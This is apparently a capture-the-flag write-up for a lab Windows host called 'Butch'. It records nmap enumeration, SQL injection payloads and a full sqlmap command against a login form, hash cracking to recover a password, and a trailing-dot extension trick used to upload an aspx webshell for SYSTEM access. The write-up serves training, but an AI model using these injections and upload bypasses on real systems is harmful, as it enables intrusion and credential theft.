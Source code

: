 # Butch
### Enumeration
```
# Nmap 7.92 scan initiated Sat Apr 30 11:06:05 2022 as: nmap -sCV -p- -v -oA nmap/tcp_all 192.168.65.63
Nmap scan report for ip-192-168-65-63.eu-west-1.compute.internal (192.168.65.63)
Host is up (0.016s latency).
Not shown: 65528 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
25/tcp   open  smtp          Microsoft ESMTP 10.0.17763.1
| smtp-commands: butch Hello [192.168.49.65], TURN, SIZE 2097152, ETRN, PIPELINING, DSN, ENHANCEDSTATUSCODES, 8bitmime, BINARYMIME, CHUNKING, VRFY, OK
|_ This server supports the following commands: HELO EHLO STARTTLS RCPT DATA RSET MAIL QUIT HELP AUTH TURN ETRN BDAT VRFY
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
450/tcp  open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Butch
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: butch; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2022-04-30T11:08:20
|_  start_date: N/A
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr 30 11:08:58 2022 -- 1 IP address (1 host up) scanned in 173.24 seconds
```

##### FTP, SMB
Neither allow anonymous access.

### Foothold
Webserver running some sort of custom software. The name field is vulnerable to an SQL injection attack via a single quote character `'`. Initially, I tried the obvious login bypass injection `' or 1=1`, and a couple of variants, but none worked. After doing some reading, I began to suspect that the query was not checking both username and password, but fetching a password hash for the given username, which it then checked by hashing the provided password in memory and comparing. Evidence towards this hypothesis was the fact that the query returned 2 columns, verified using the injection below:

```
' union select 1,2--
```

Any other number of columns generated an exception. I tried an injection to return an MD5 hash, but it didn't work, so instead of trying to guess the hashing algorithm being used, I used `sqlmap` to retrieve data:

```
sqlmap -p 'ctl00%24ContentPlaceHolder1%24UsernameTextBox' -u 'http://192.168.65.63:450/' --data "__VIEWSTATE=%2FwEPDwUKLTQ0NDEwMDQ5Mg9kFgJmD2QWAgIDD2QWAgIBD2QWAgIHDw8WAh4EVGV4dAUeSW52YWxpZCB1c2VybmFtZSBvciBwYXNza2V5Li4uZGRkikLoDB%2B%2FpXdQqiz9h%2Bj5nHjE4OqEYro7hz%2FkDYh48fQ%3D&__VIEWSTATEGENERATOR=CA0B0334&__EVENTVALIDATION=%2FwEdAAQ5uNqOYHbIeyi7LRhe1%2B7mG8sL8VA5%2Fm7gZ949JdB2tEE%2BRwHRw9AX2%2FIZO4gVaaKVeG6rrLts0M7XT7lmdcb69X6Gyh7W5UwTVXhfLT4lC%2FUYzzbo01YDuyOekjcuLek%3D&ctl00%24ContentPlaceHolder1%24PasswordTextBox=a&ctl00%24ContentPlaceHolder1%24LoginButton=Enter&ctl00%24ContentPlaceHolder1%24UsernameTextBox=test" --batch --random-agent --current-db
```

The database was called `butch`. Enumerating tables, there was only one of interest: `users`. Dumping data from `users`, I got found one user:


| user_id | username | password_hash                                                    |
|---------|----------|------------------------------------------------------------------|
| 1       | butch    | e7b2b06dd8acded117d6d075673274c4ecdc75a788e09e81bffd84f11af6d267 |

`hashid` said the hash was SHA-256, so I attempted to crack it using `hashcat` in mode `1400`. It quickly retrieved the password `awesomedude`, so the login credentials were `butch:awesomedude`.

### RCE

Logging into the website, we're presented with a file upload form. I tried uploading random files and then visiting them from the path root, e.g. uploading `example.php` and visiting `http://192.168.65.63/example.php`, but I got a 404, despite the page saying the file upload was successful. I tried fuzzing for an uploads directory, but didn't find anything. I tried using the credentials with other services (FTP, SMB, RPC), but they didn't work.

Then I thought to try uploading an `aspx` shell, specifically `/usr/share/webshells/aspx/cmdasp.aspx`. The form showed an error: `Invalid file format...`. So potentially there's a file extension blacklist that we can bypass. I tried using the null byte trick by intercepting the request with Burp and changing the extension to `.txt%00.aspx`, but that didn't work.

Ultimately, I changed the name to `cmdasp.aspx.`. When checking the extension against the blacklist, this was fine because of the trailing `.`. However, when saving the file, Windows removes the trailing `.` in the name, producing a valid `.aspx` file. Now I could visit `/cmdasp.aspx` in the browser to get a webshell. Checking the user, we had a webshell as system, so I grabbed both flags.

I wanted to poke around the box a bit, so I downloaded [an aspx webshell](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx) and used the same extension trick to upload. I had to set the port to `450`.

### Post exploitation

The SQL query the application used:

```
"SELECT username, password_hash FROM users WHERE username = '" + UsernameTextBox.Text.ToString() + "';"
```